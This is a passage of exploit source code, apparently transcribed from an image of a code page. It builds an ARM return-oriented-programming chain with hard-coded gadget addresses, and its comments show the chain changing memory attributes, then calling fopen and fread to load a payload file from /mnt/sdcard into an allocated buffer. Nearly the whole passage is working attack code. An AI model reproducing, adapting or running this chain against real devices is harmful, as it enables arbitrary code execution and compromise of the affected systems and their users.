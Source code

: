 ```
rop_chain += p32(0xc0583f54) # r4
rop_chain += p32(0xc0485d38) # pc

# | 0xc0485d38 | c0485d38 | str r0,[r11,#-0x40] | c0485d3c  | blx r4 | 

# | 0xc0583f54 | ldmia sp!,{r4,r5,r6,r11,pc} | 
rop_chain += p32(0xc03edf0c) # r4
rop_chain += p32(0x00000c81) # r5 <- this is the last argument of the change attr function
rop_chain += p32(0xc00d2e78) # r6
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc0533030) # pc

# | 0xc0533030 | c0533030 | cpy r3,r5 | c0533034  | blx r6 | 
# | 0xc00d2e78 | c00d2e78 | cpy r5,r9 | c00d2e7c | blx r4 | 

# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
rop_chain += p32(0xc0473224) # r4
rop_chain += p32(0xc05c1dc9) # r5 <- ffs fopen was a thumb function
rop_chain += p32(0xc075ed50) # r6 
rop_chain += p32(0xc03adfec) # r7
rop_chain += p32(0xc05f92d0) # r8 
rop_chain += p32(0xc00a3594) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc00bad9c) # pc

## now we need to open a file, and load the bytes into the buffer (called file /mnt/sdcard/test.aac)
# to call fopen("/mnt/sdcard/test.aac", "rb")
# - c05f92d0 = "rb"
# - c075ed50 = "/mnt/sdcard/test.aac"
# - c05c1dc8 = fopen

# | 0xc00bad9c | cpy r0,r6 | c00bada0 | blx r9 |   
# | 0xc00a3594 | cpy r1,r8 | c00a3598 | blx r7 |
# | 0xc03adfec | cpy r3,r5 | c03adfec | blx r4 |  

# | 0xc0473224 | blx r3 | c0473228 | ldmia sp!,{r3,r4,r5,r6,r7,r8,r9,r10,r11,pc} | <- does the function call
rop_chain += p32(0xc0426d4c) # r3 
rop_chain += p32(payload_length) # r4 <- size of the read
rop_chain += p32(0xc05c20b5) # r5 <- address of fread (its thumb)
rop_chain += p32(0xc03edf0c) # r6
rop_chain += p32(0x00000001) # r7 <- 1
rop_chain += p32(0x00000000) # r8 
rop_chain += p32(0x00000000) # r9
rop_chain += p32(0xc08e4ee0 - 0xbc4) # r10 <- stored malloc'd buffer
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc040b604) # pc

# now our opened fd is in r0, need to call fread(allocated_buffer, 1, size, stream (what is in r0 atm))
# - c05c20b4 - address of fread

# | c040b604 | ldr r8,[r10,#0xbc4] | c040b608 | blx r3 |

# c0426d4c 00 30 a0 e1     cpy        r3,r0
# c0426d50 04 20 a0 e1     cpy        r2,r4
# c0426d54 07 10 a0 e1     cpy        r1,r7
# c0426d58 08 00 a0 e1     cpy        r0,r8
# c0426d5c 36 ff 2f e1     blx        r6

# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
rop_chain += p32(0x00000000) # r4
```